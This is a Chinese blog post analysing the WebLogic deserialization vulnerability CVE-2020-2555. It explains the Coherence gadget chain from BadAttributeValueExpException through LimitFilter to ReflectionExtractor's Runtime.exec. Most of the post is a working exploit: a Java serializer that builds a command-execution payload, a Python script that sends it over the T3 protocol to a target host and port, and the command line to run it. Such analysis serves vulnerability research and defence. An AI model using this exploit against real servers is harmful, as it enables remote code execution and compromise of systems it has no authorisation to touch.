

# weblogic 反序列化之 CVE-2020-2555 漏洞分析 - noone52 - 博客园

> 原文：[`www.cnblogs.com/MoZiYa/p/16690191.html`](https://www.cnblogs.com/MoZiYa/p/16690191.html)

# 前言

CVE-2020-2555 主要源于在 coherence.jar 存在着用于 gadget 构造的类（反序列化构造类），并且利用 weblogic 默认存在的 T3 协议进行传输和解析进而导致 weblogic 服务器反序列化恶意代码最后执行攻击语句。
Oracle Coherence 组件默认集成在 Weblogic12c 及以上版本中。

# 利用链

```
/*
 * gadget:
 *      BadAttributeValueExpException.readObject()
 *          com.tangosol.util.filter.LimitFilter.toString()
 *              com.tangosol.util.extractor.ChainedExtractor.extract()
 *                  com.tangosol.util.extractor.ReflectionExtractor.extract()
 *                      Method.invoke()
 *                      ...
 *                      Runtime.getRuntime.exec()
 */ 
```

# CVE-2020-2555

## ReflectionExtractor

跟着链条走，先看一下 ReflectionExtractor#extract 方法，传入一个 oTarget 对象，然后通过 ClassHelper.findMethod()反射获指定方法，赋值给 this.m_methodPrev，最后在 53 行调用 invoke 方法。

先来一段简单 demo 来看看 ReflectionExtractor 的实例化，先看构造方法，师傅们应该在上图看到了，接收三个参数，然后赋值给类属性。这里接收的两个参数，一个传入`getMethod`，一个传入`new Object[]{"getRuntime", new Class[0]}`.


可以发现跟 CC 链条中的 commons collections 调用链是一样的。
代码如下：

```
import com.tangosol.util.extractor.ReflectionExtractor;

public class CVE_2020_2555 {
    public static void main(String[] args) throws Exception {
        ReflectionExtractor reflectionExtractor = new ReflectionExtractor("getMethod", new Object[]{"getRuntime", new Class[0]});
        Object extract = reflectionExtractor.extract(Runtime.class);
        System.out.println(extract);
    }
} 
```

这里 ReflectionExtractor 无法调用 extract，所以无法利用。

## ChainedExtractor

可以发现 ChainedExtractor 的 extract 方法可以实现链式调用

看到这里很熟悉了，递归调用，前一个 oTarget，作为下一个循环的参数传入，递归调用。所以构造为如下，ChainedExtractor 中传入 ReflectionExtractor 数组对象，然后通过 ChainedExtractor 对象的 extract 方法进行链式调用

```
public class CVE_2020_2555_demo2 {
    public static void main(String[] args) throws Exception {

        ReflectionExtractor[] reflectionExtractors = new ReflectionExtractor[]{
                new ReflectionExtractor("getMethod", new Object[]{"getRuntime", new Class[0]}),
                new ReflectionExtractor("invoke", new Object[]{"null", new Class[0]}),
                new ReflectionExtractor("exec", new Object[]{new String[]{"cmd", "/c", "calc"}})
        };

        ChainedExtractor chainedExtractor = new ChainedExtractor(reflectionExtractors);
        chainedExtractor.extract(Runtime.class);
    }
} 
```

ChainedExtractor 同样无法进行利用，因为本身序列化无法调用 extract

## LimitFilter

可以看到 toString 方法调用了 extract 方法，解决了我们上面没有调用 *extract 方法* 的问题。这里的 toString 方法，我想师傅们已经联想到 cc5 利用链了，cc5 利用链的化是使用的 BadAttributeValueExpException 类中的 readObject 方法调用了 toString 方法去反序列化的，参数可控，然后调用 TideMap 中的 toString 方法，造成命令执行漏洞。

在 Coherence 组件中 LimitFilter 这个类刚好可以被序列化并且有 toString 这个方法。因为是反序列化，this.m_comparator 和 this.m_oAnchorBottom 都可控。
这里我们看一下上图的大方框，this.m_comparator 必须实现 ValueExtractor 类，所以我们搜索一下看看那些符合条件(严格的说 m_comparator 需要是 ValueExtractor 的实例并且和 m_oAnchorBottom 都需要可被序列化)。


找到 com.tangosol.util.extractor.ReflectionExtractor#extract
其次注意 com.tangosol.util.extractor.ChainedExtractor#extract
这两个正好是我们上面分析的两个类，那么一切都说得通了！

# POC

## 序列化脚本

```
import com.tangosol.util.ValueExtractor;
import com.tangosol.util.extractor.ChainedExtractor;
import com.tangosol.util.extractor.ReflectionExtractor;
import com.tangosol.util.filter.LimitFilter;

import javax.management.BadAttributeValueExpException;
import java.io.*;
import java.lang.reflect.Field;

public class CVE_2020_2555 {
    public static void main(String[] args) throws NoSuchFieldException, IllegalAccessException, IOException, ClassNotFoundException {
        //String cmd = "touch /tmp/CVE_2020_2555_12013";
        String cmd ="calc.exe";
        ValueExtractor[] valueExtractors = new ValueExtractor[]{
                new ReflectionExtractor("getMethod", new Object[]{"getRuntime", new Class[0]}),
                new ReflectionExtractor("invoke", new Object[]{null, new Object[0]}),
                //new ReflectionExtractor("exec", new Object[]{new String[]{"/bin/bash", "-c", cmd}})
                new ReflectionExtractor("exec", new Object[]{new String[]{"cmd.exe", "/c", cmd}})
        };
        // chain
        LimitFilter limitFilter = new LimitFilter();
        limitFilter.setTopAnchor(Runtime.class);
        BadAttributeValueExpException expException = new BadAttributeValueExpException(null);
        Field m_comparator = limitFilter.getClass().getDeclaredField("m_comparator");
        m_comparator.setAccessible(true);
        m_comparator.set(limitFilter, new ChainedExtractor(valueExtractors));
        Field m_oAnchorTop = limitFilter.getClass().getDeclaredField("m_oAnchorTop");
        m_oAnchorTop.setAccessible(true);
        m_oAnchorTop.set(limitFilter, Runtime.class);
        Field val = expException.getClass().getDeclaredField("val");
        val.setAccessible(true);
        val.set(expException, limitFilter);
        ser(expException, "./CVE_2020_2555_12013.ser");
    }

    public static void ser(Object obj, String serName) throws IOException {
        File file = new File(serName);
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream(file));
        oos.writeObject(obj);
        System.out.println("-------序列化成功" + serName);
    }

} 
```

序列化之后生成序列化数据，然后用 t3 协议脚本发送即可：

## t3 协议发送脚本

```
import socket
import os
import sys
import struct
from binascii import a2b_hex, b2a_hex

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.settimeout(5)

server_address = (sys.argv[1], int(sys.argv[2]))
print('[+] Connecting to {} port {}'.format(server_address[0], server_address[1]))
sock.connect(server_address)

# Send headers
headers='t3 12.2.1\nAS:255\nHL:19\nMS:10000000\nPU:t3://us-l-breens:7001\n\n'
print('sending "{}"'.format(headers))
sock.sendall(headers.encode())

data = sock.recv(1024)
print('[+] received "%s"' % data)

payloadObj = open(sys.argv[3],'rb').read()
payload = '056508000000010000001b0000005d010100737201787073720278700000000000000000757203787000000000787400087765626c6f67696375720478700000000c9c979a9a8c9a9bcfcf9b939a7400087765626c6f67696306fe010000aced00057372001d7765626c6f6769632e726a766d2e436c6173735461626c65456e7472792f52658157f4f9ed0c000078707200025b42acf317f8060854e002000078707702000078fe010000aced00057372001d7765626c6f6769632e726a766d2e436c6173735461626c65456e7472792f52658157f4f9ed0c000078707200135b4c6a6176612e6c616e672e4f626a6563743b90ce589f1073296c02000078707702000078fe010000aced00057372001d7765626c6f6769632e726a766d2e436c6173735461626c65456e7472792f52658157f4f9ed0c000078707200106a6176612e7574696c2e566563746f72d9977d5b803baf010300034900116361706163697479496e6372656d656e7449000c656c656d656e74436f756e745b000b656c656d656e74446174617400135b4c6a6176612f6c616e672f4f626a6563743b78707702000078fe010000'
payload=payload+str(b2a_hex(payloadObj).decode())
payload=payload+'fe010000aced0005737200257765626c6f6769632e726a766d2e496d6d757461626c6553657276696365436f6e74657874ddcba8706386f0ba0c0000787200297765626c6f6769632e726d692e70726f76696465722e426173696353657276696365436f6e74657874e4632236c5d4a71e0c0000787077020600737200267765626c6f6769632e726d692e696e7465726e616c2e4d6574686f6444657363726970746f7212485a828af7f67b0c000078707734002e61757468656e746963617465284c7765626c6f6769632e73656375726974792e61636c2e55736572496e666f3b290000001b7878fe00ff'
payload = '%s%s' % (('{:08x}'.format(len(payload) // 2 + 4), payload))

print('[+] Sending payload...')
sock.send(bytes.fromhex(payload))
data = sock.recv(1024)
print('received "%s"' % data) 
```

```
python3 t3Send.py 192.168.210.72 7001 ./CVE_2020_2555_12013.ser 
```

```
参考：
http://redteam.today/2020/03/25/weblogic%E5%8E%86%E5%8F%B2T3%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%8F%8A%E8%A1%A5%E4%B8%81%E6%A2%B3%E7%90%86/#CVE-2020-2555
https://www.cnblogs.com/zpchcbd/p/15629063.html
https://github.com/Y4er/CVE-2020-2555/ 
```